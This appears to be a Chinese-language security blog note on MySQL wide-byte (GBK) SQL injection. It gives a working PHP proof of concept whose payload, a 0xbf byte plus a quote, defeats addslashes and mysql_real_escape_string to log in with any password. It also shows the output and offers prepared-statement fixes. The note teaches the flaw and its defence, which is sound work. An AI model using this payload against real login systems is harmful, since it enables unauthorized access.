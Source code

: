 ```yaml
---
title: "Mysql宽字节注入"
date: 2016-03-05 21:01
---
```


## mysql 宽字节注入

## 绕过`addslasher`和`mysql_real_escape_string`(Trick)

> 在MYSQL5.5.37-log下该Trick已经被修复了

demo as follow:

* mysql

```mysql 
mysql> create database test_gbk default charset GBK; 
Query OK, 1 row affected (0.00 sec)

mysql> use test_gbk;
Database changed

mysql> CREATE TABLE users (  
    username VARCHAR(32) CHARACTER SET GBK,  
    password VARCHAR(32) CHARACTER SET GBK,  
    PRIMARY KEY (username)  
); 
Query OK, 0 rows affected (0.53 sec)
  
mysql> insert into users SET username='t1', password='t123456';  
Query OK, 1 row affected (0.01 sec)  

mysql> insert into users SET username='t2', password='t223456';  
Query OK, 1 row affected (0.01 sec)
  
mysql> insert into users SET username='t3', password='t33456';  
Query OK, 1 row affected (0.01 sec) 
```

* php

```php
<?php  
echo "PHP version: ".PHP_VERSION."\n";  

# change as yours  
mysql_connect('servername','username','password');  

mysql_select_db("test_gbk");  
mysql_query("SET NAMES GBK");  
  
$_POST['username'] = chr(0xbf).chr(0x27).' OR username = username /*';  
$_POST['password'] = 'guess';  
  
$username = addslashes($_POST['username']);  
$password = addslashes($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
  
$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
  
mysql_set_charset("GBK");  
$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  
  
var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
```

run 

```
$php test_gbk.php

PHP version: 5.2.5  
int(3)  
string(6) "latin1"  
int(3)  
string(6) "latin1"  
int(0)  
string(3) "gbk"
```

使用addslashes还是mysql_real_escape_string,我都可以利用编码的漏洞来实现输入任意密码就能登录服务器的注入攻击！！！！

第三个mysql_real_escape_string之所以能够防注入是因为mysql_escape_string本身并没办法判断当前的编码，必须同时指定服务端的编码和客户端的编码，加上就能防编码问题的注入了

* 解决方案

使用拥有Prepared Statement机制的PDO和MYSQLi来代替mysql_query(注：mysql_query自 PHP 5.5.0 起已废弃，并在将来会被移除)：

PDO：

```php
$pdo = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'user', 'pass');  
  
$pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);  
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);  
$stmt = $pdo->prepare('SELECT * FROM employees WHERE name = :name');  
$stmt->execute(array('name' => $name));  
  
foreach ($stmt as $row) {  
    // do something with $row  
}  
```

MYSQLi：

```
$stmt = $dbConnection->prepare('SELECT * FROM employees WHERE name = ?');  
$stmt->bind_param('s', $name);  
  
$stmt->execute();  
  
$result = $stmt->get_result();  
while ($row = $result->fetch_assoc()) {  
    // do something with $row  
}  
```